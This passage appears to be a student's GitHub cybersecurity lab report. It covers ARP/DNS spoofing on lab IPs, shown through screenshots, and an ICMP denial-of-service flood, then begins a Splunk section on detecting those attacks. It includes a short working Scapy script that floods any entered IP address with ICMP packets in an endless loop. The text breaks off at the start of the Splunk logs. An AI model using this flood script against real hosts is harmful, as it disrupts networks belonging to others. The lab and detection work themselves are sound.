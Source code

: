 ### 1. Use the Arp spoof tool to perform the following attacks  

 

## a. Use ARP packets to perform the DNS spoofing attack. Whatever the website the user types, it should navigate to http://testphp.vulnweb.com/login.php as a part of the attack. 

   ```Attacker 10.211.56.4```
   ```Victim 10.211.56.5```


Starting ARPspoofing

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/Cybersecurity-Lab/assets/140537888/3ca0a6b0-2cb6-4d2f-9e1b-cca8c41c2e20">

<img width="994" alt="image" src="https://github.com/SantoshKumarP1412/Cybersecurity-Lab/assets/140537888/6aaf35b1-d2fe-4a6e-b8c9-1af4b02bf752">

DNS spoofing started 
 
<img width="1264" alt="image" src="https://github.com/SantoshKumarP1412/Cybersecurity-Lab/assets/140537888/63accda4-beff-4d33-a3d9-3aa10d37ee4d">

 <img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/Cybersecurity-Lab/assets/140537888/5ed22f6c-c0f8-4856-9686-f94a08538a58">


## b. Use ICMP Packets to perform only DDOS attacks over the victim. 

 ![image](https://github.com/SantoshKumarP1412/Cybersecurity-Lab/assets/140537888/89c1f5d2-9124-4b36-8d05-65e53a5949b9)

![image](https://github.com/SantoshKumarP1412/Cybersecurity-Lab/assets/140537888/e18f5798-923e-4f1d-8cee-9edbf7f36c3c)

from scapy.all import *

# Function to send ICMP packets
def send_icmp_packet(dst_ip):
    icmp_packet = IP(dst=dst_ip)/ICMP()
    send(icmp_packet, loop=True, verbose=False)

# Main function
def main():
    target_ip = input("Enter the target IP address: ")
    while True:
        send_icmp_packet(target_ip)

if __name__ == "__main__":
    main()
 

### 2. Use Splunk to answer the following questions: 

 

## a. Capture these above attacks using Splunk in an active or passive method. 

 Passive Logs

   ```